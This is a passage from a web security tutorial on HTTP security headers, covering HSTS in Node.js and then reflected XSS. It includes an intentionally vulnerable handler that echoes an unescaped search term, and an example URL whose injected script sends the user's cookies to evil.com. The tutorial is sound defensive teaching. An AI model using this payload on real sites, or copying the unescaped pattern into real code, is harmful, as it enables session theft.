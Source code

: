 <b>A word of caution:</b> using the <code>preload</code> directive also means it cannot be easily undone, and carries an update lead time of months! While preload certainly improves your app's security, it also means you need to be fully confident your app can support HTTPS-only!

My recommendation is to use <code>Strict-Transport-Security: max-age=31536000; includeSubDomains;</code> which instructs the browser to enforce a valid HTTPS connection to the origin host and to all subdomains for a year. If you are confident that your app can handle HTTPS-only, I would also recommend adding the <code>preload</code> directive, in which case don’t forget to register your website on the preload list as well, as noted above!

Here’s what implementing HSTS looks like in Node.js:

<pre><code class="language-javascript">function requestHandler(req, res) {
	res.setHeader('Strict-Transport-Security','max-age=31536000; includeSubDomains; preload');
}
</code></pre>

## Enabling XSS Filtering

In a reflected cross-site scripting attack (reflected XSS), an attacker injects malicious JavaScript code into an HTTP request, with the injected code “reflected” in the response and executed by the browser rendering the response, enabling the malicious code to operate within a trusted context, accessing potentially confidential information such as session cookies. Unfortunately, XSS is a pretty common web app attack, and a surprisingly effective one!

To understand a reflected XSS attack, consider the Node.js code below, rendering mywebapp.com, a mock and intentionally simple web app that renders search results alongside the search term requested by the user:

<pre><code class="language-javascript">function handleRequest(req, res) {
    res.writeHead(200);

    // Get the search term
    const parsedUrl = require('url').parse(req.url);
    const searchTerm = decodeURI(parsedUrl.query);
    const resultSet = search(searchTerm);

    // Render the document
    res.end(
        "&lt;html&gt;" +
            "&lt;body&gt;" +
                "&lt;p&gt;You searched for: " + searchTerm + "&lt;/p&gt;" +
                // Search results rendering goes here…
            "&lt;/body&gt;" +
        "&lt;/html&gt;");
};
</code></pre>

Now, consider how will the web app above handle a URL constructed with malicious executable code embedded within the URL, such as this:

<pre><code class="language-markup">https://mywebapp.com/search?&lt;/p&gt;&lt;script&gt;window.location=“https://evil.com?cookie=”+document.cookie&lt;/script&gt;</code></pre>

As you may realize, this URL will make the browser run the injected script and send the user’s cookies, potentially including confidential session cookies, to evil.com!
